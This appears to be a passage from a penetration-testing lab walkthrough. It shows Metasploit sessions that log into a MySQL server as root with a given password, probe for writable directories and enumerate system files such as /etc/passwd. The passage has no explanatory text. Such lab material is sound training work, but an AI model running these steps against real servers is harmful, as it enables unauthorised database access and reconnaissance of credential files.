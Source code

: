 ```
[*] 192.34.86.3:3306      - Checking /Benefits...
[!] 192.34.86.3:3306      - Can't create/write to file '/Benefits/qqyWZeFH' (Errcode: 2)
[*] 192.34.86.3:3306      - Checking /Data...
[!] 192.34.86.3:3306      - Can't create/write to file '/Data/qqyWZeFH' (Errcode: 2)
[*] 192.34.86.3:3306      - Checking /Invitation...
[!] 192.34.86.3:3306      - Can't create/write to file '/Invitation/qqyWZeFH' (Errcode: 2)
[*] 192.34.86.3:3306      - Checking /Office...
[!] 192.34.86.3:3306      - Can't create/write to file '/Office/qqyWZeFH' (Errcode: 2)
[*] 192.34.86.3:3306      - Checking /Site...
[!] 192.34.86.3:3306      - Can't create/write to file '/Site/qqyWZeFH' (Errcode: 2)
[*] 192.34.86.3:3306      - Checking /Admin...
[!] 192.34.86.3:3306      - Can't create/write to file '/Admin/qqyWZeFH' (Errcode: 2)
[*] 192.34.86.3:3306      - Checking /etc...
[!] 192.34.86.3:3306      - Can't create/write to file '/etc/qqyWZeFH' (Errcode: 13)
[*] 192.34.86.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > use auxiliary/scanner/mysql/mysql_file_enum
msf5 auxiliary(scanner/mysql/mysql_file_enum) > show options

Module options (auxiliary/scanner/mysql/mysql_file_enum):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   DATABASE_NAME  mysql            yes       Name of database to use
   FILE_LIST                       yes       List of directories to enumerate
   PASSWORD                        no        The password for the specified username
   RHOSTS         192.34.86.3      yes       The target address range or CIDR identifier
   RPORT          3306             yes       The target port (TCP)
   TABLE_NAME     KiYrCGgK         yes       Name of table to use - Warning, if the table already exists its contents will be corrupted
   THREADS        1                yes       The number of concurrent threads
   USERNAME       root             yes       The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_file_enum) > set PASSWORD twinkle
PASSWORD => twinkle
msf5 auxiliary(scanner/mysql/mysql_file_enum) > set FILE_LIST /usr/share/metasploit-framework/data/wordlists/files.txt
FILE_LIST => /usr/share/metasploit-framework/data/wordlists/files.txt
msf5 auxiliary(scanner/mysql/mysql_file_enum) > run

[+] 192.34.86.3:3306      - /etc/passwd is a file and exists
[+] 192.34.86.3:3306      - /etc/hosts is a file and exists
[+] 192.34.86.3:3306      - /etc/group is a file and exists
[+] 192.34.86.3:3306      - /etc/hostname is a file and exists
[+] 192.34.86.3:3306      - /etc/resolv.conf is a file and exists
[+] 192.34.86.3:3306      - /etc/default is a directory and exists
[*] 192.34.86.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
